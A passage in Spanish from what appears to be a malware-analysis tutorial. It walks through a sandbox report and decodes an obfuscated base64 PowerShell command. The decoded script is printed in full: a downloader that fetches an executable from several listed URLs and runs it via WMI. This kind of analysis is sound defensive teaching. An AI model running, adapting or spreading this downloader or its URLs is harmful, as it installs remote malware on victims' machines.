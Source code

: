 ![image036.png](/uploads/InitialAccess/image036.png)



Como podemos observar, disponemos de diferentes paneles para observar la información. Solicitudes HTTP, Conexiones, processos ejecutados, así como indicadores de coompromiso.

En este caso, vemos la ejecución de un powershell ofuscado en base64.

Podemos visualizar el instrucción con el comando:

`echo "churro" | base64 -d`


La instrución generada es la siguiente:


> $liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'



Podemos interpretar perfectamente, la llamada a la clase WebClient y luego indica las urls a las que quiere consultar la información.

El siguiente caso llama a la clase wmi32_process, al método créate, para crear un nuevo proceso, con el fichero que se ha descargado y ejecutarlo vía WMI.
